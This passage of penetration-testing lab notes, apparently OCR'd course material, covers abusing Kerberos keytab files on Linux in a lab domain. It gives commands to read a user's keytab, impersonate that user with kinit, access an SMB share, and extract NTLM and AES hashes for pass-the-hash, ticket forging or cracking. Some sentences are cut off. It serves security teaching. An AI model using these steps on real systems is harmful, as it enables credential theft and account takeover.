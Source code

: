 #### Searching for ccache Files in /tmp

```shell-session
ls -la /tmp
```

---
## Abusing KeyTab Files

#### Listing keytab File Information

```shell-session
klist -k -t /opt/specialfiles/carlos.keytab 
```

#### Impersonating a User with a keytab

```shell-session
klist 
```

```shell-session
kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
```

#### Connecting to SMB Share as Carlos

```shell-session
smbclient //dc01/carlos -k -c ls
```


### Keytab Extract

We can attempt to crack the account's password by extracting the hashes from the keytab file. Let's use [KeyTabExtract](https://github.com/sosdave/KeyTabExtract), a tool to extract valuable information from 502-type .keytab files, which may be used to authenticate Linux boxes to Kerberos.

 information such as the realm, Service Principal, Encryption Type, and Hashes.

#### Extracting Keytab Hashes with KeyTabExtract

```shell-session
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 
```

With the **NTLM hash, we can perform a Pass the Hash attack**. With the A**ES256 or AES128 hash, we can forge our tickets using Rubeus** or attempt to **crack the hashes** to obtain the plaintext password.

 quick way to decrypt passwords is with online repositories such as [https://crackstation.net/](https://crackstation.net/), which contains billions of passwords.

#### Log in as Carlos

```shell-session
su - carlos@inlanefreight.htb
```

